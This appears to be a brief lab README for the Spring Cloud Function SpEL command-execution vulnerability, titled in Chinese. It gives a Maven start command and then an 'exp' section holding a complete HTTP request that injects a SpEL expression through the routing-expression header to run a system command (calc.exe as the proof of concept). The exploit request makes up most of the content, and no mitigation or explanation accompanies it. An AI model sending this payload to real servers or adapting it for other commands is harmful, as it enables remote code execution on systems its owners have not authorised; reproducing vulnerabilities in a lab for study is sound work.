

## Spring-Cloud-Function-Spel命令执行漏洞

> environment：jdk17

start:
```
mvn spring-boot:run
```

exp:
```
POST /spring HTTP/1.1
Host: 192.168.0.104:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc.exe")
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



